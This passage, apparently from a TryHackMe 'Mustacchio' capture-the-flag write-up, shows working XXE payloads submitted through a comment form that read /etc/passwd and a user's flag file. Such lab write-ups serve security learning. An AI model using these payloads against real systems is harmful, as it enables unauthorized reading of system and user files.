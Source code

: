 I copied the whole contents of the file and submitted it as comment and we can see that it worked.

![XXEcomment](https://github.com/allenjedb/Notes/blob/main/writeups/THM/Mustacchio/img/xxecomment.png)

Now let's edit the xml contents and try reading **_/etc/passwd_** using the following payload.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

And it worked! As we can see the name part has been replaced with the contents of **_/etc/passwd_**

![xxepasswd](https://github.com/allenjedb/Notes/blob/main/writeups/THM/Mustacchio/img/xxeworked.png)

As we saw from the output of **_/etc/passwd_** we have a user *_barry_* I tried accessing his home directory and reading **_user.txt_** 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/user.txt" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
